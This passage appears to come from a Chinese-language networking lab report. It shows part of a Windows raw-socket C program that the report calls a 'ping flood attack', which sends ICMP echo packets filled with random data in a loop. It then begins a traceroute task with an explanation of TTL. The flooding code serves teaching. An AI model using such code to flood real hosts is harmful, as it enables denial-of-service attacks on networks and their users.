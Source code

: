 ```c
       The beginning of the ICMP header is offset sizeof(IPHeader) bytes
       backward from the packet’s beginning.
     */
    ICMPHeader *icmp = (ICMPHeader *)(packet + (sizeof(IPHeader)));
    icmp->type = ICMP_ECHO;
    icmp->code = 0;
    icmp->id = rand();
    icmp->checksum = 0;

     /*
       Step 6: send packet with random data in ping loop.
     */
    fprintf(stdout, "Starting Ping flood attack. Terminated by Ctrl+c...\n");
    int cnt = 0;
    while (KEEP_RUNNING) {
        // reset ICMP data
        memset(packet + sizeof(IPHeader) + sizeof(ICMPHeader), rand() % 255,
               payload_size);
        // recalculate the ICMP header checksum since we are filling the ICMP
        // data with random data
        icmp->checksum = 0;
        icmp->checksum =
            checksum((unsigned short *)icmp, sizeof(ICMPHeader) + payload_size);

        err = sendto(socket_fd, packet, packet_size, 0,
                     (struct sockaddr *)&dest, sizeof(dest));
        if (err < 0) {
            fprintf(stderr, "sendto failed with error: %d\n",
                    WSAGetLastError());
            ExitProcess(STATUS_FAILED);
        }
        fprintf(stdout, "sent %d packet(s).\n", ++cnt);
        Sleep(1000);
    }
```

运行结果:

[![ping result](https://z3.ax1x.com/2021/11/14/IcpBUf.md.png)](https://imgtu.com/i/IcpBUf)

## 任务 3: traceroute.c

### 调试 traceroute.c

Traceroute 的基本原理是向外发送带有逐次递增 TTL 的数据包从而获取的路径中每一跳的信息。
Host A 向 Host B 做 traceroute，Host A 第一次会发出一个 TTL=1 的数据包，当该数据包到达 R1 时，TTL 会变为 0 （网络上每经过一跳 TTL 会减去 1），R1 会将 TTL=0 的数据包丢弃并返回一个 ICMP Time Exceeded 给 Host A。Host A 发出第二个数据包并将 TTL 增加1 （TTL=2)，该数据包到达 R2 后 TTL=0，R2 向 Host A 返回 ICMP Time Exceeded。依此类推，直到 TTL 增加到一个合适的值让数据包顺利到达 Host B，Host B 会返回一个 Final Replay 给 Host A。

[![IcP62D.md.jpg](https://z3.ax1x.com/2021/11/14/IcP62D.md.jpg)](https://imgtu.com/i/IcP62D)
